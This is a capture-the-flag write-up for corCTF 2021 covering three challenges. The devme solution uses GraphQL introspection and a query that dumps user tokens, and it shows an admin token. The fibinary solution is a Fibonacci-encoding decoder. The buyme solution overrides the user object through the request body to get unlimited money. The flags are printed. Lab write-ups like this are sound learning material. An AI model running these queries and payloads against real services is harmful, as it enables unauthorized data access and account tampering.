 # Write up corCTF 2021

![](website.png)

## web/devme

Challenge link [https://devme.be.ax/](https://devme.be.ax/)

### Statement

![](devme/statement.png)

[Source website and devme.html here](devme/devme_files.zip)

### Solution

Using devtool that not give us anything special. Look up on the website, I see the form which allow me to POST something to server:

![](devme/sendEmail.png)

I try registing by (test@gmail.com) and using Burp to see what happen is going on:

![](devme/burp.png)

When I register, the website redirect to "/graphql" and post a query so that sever create new user. And I realize that **graphql** is the problem. It can help me sending a query or retriving the database by the right query.

After studying about graphql, I try posting the below query to see the behind structure of its "graphql":
```grahpql
{
	"query":"query IntrospectionQuery {
		__schema {
			queryType{name}
			types {
				name
				fields {
					name
				}
			}
		}
	}"
}
```

![Result](devme/structure.png)

As you can see, it show me some properties such as query type, type, name, field,.... This is the graphql structure of the website.

My mission is became easily. I think that I need to the data of User to get the admin data and try cheating.

```graphql
{
	"query":"query Query {
		users {
			username
			token
		}
	}"
}
```

![Result](devme/users.png)

I have the admin token <code>"username":"admin","token":"3cd3a50e63b3cb0a69cfb7d9d4f0ebc1dc1b94143475535930fa3db6e687280b</code> and I will write a query to POST to the website so that get the flag!

### Flag

![flag](devme/flag.png)


## crypto/fibinary

### Statement

![](fibinary/state.png)

The challenge has two source code: [enc.py](fibinary/enc.py) and [flag.enc](fibinary/flag.enc)

### Solution

The source code [enc.py](fibinary/enc.py):
```python
fib = [1, 1]
for i in range(2, 11):
	fib.append(fib[i - 1] + fib[i - 2])

def c2f(c):
	n = ord(c)
	b = ''
	for i in range(10, -1, -1):
		if n >= fib[i]:
			n -= fib[i]
			b += '1'
		else:
			b += '0'
	return b

flag = open('flag.txt', 'r').read()
enc = ''
for c in flag:
	enc += c2f(c) + ' '
with open('flag.enc', 'w') as f:
	f.write(enc.strip())
```
The flag.enc:
```10000100100 10010000010 10010001010 10000100100 10010010010 10001000000 10100000000 10000100010 00101010000 10010010000 00101001010 10000101000 10000010010 00101010000 10010000000 10000101000 10000010010 10001000000 00101000100 10000100010 10010000100 00010101010 00101000100 00101000100 00101001010 10000101000 10100000100 00000100100```

The challenge is relate to *Fibonacci* array.

*c2f(c)* function is responsible for encryption. It converts each flag's letter to the binary array (len = 10).

So that I was write a noob script to decrypt the flag.enc ^^

```python
fib = [1, 1]
for i in range(2, 11):
	fib.append(fib[i - 1] + fib[i - 2])

#fib = [1, 1, 2, 3, 5, 8, 13, 21, 34, 55, 89]
enc = "10000100100 10010000010 10010001010 10000100100 10010010010 10001000000 10100000000 10000100010 00101010000 10010010000 00101001010 10000101000 10000010010 00101010000 10010000000 10000101000 10000010010 10001000000 00101000100 10000100010 10010000100 00010101010 00101000100 00101000100 00101001010 10000101000 10100000100 00000100100"
arr = enc.split()
_list = []

def convert(c):
    asc = 0
    for i in range (0, 10, 1):
        if (c[i] == "1"):
            asc = asc + fib[int(10-i)]
        else:
            continue
    return chr(asc)

for i in range(0, len(arr), 1):    
    _list.append(convert(arr[i]))

print("".join(_list))
```

![Result](fibinary/flag.png)

### Flag
>**corCTF{b4s3_4nd_f1bp!113d}**


## web/buyme

### Statement

![](buyme/state.png)

Web challenge: https://buyme.be.ax/
Source buyme.tar.xz: [here](buyme/chall)

### Solution

I try buying some flag to hope that some magic is happen =)))) (just kidding). Let's solve it! :3

After check the source code, I had some comments:
- Password was hashed, so that injection is not a method.
- Cookie is a unique for each account. It include "username" + "randomBytes", so that we can't cheat it :3
- By file [api.js](buyme/source/routes/api.js), we know the structure of user object.

From that, I think I can override the data when I request something =))) (fact: the last method which i can use :3).

In the source code, author uses Map() to set/get for object. I think I need to write something to request author give me flag =))).

In the route /buy, we have ```db.buyFlag({ user: req.user, ...req.body });``` and I think that this is the place where we can override the data on req.body because the challenge set the user infomation before user executes at /buy.

Finally, I also register a real account to solve the challenge with ```username: aaabbb```. I use [Hack bar extension](https://chrome.google.com/webstore/detail/hackbar/ginpbkfigcoaokgflihfhhmglmbchinc) with the data below:
```graphql
{
	"flag":  "corCTF",
    "user": {
        "user":"aaabbb",
        "money":1e+300,
        "flags":[]
    }
}
```

![](buyme/solve.png)

### Flag
>**corctf{h0w_did_u_steal_my_flags_you_flag_h0arder??!!}**
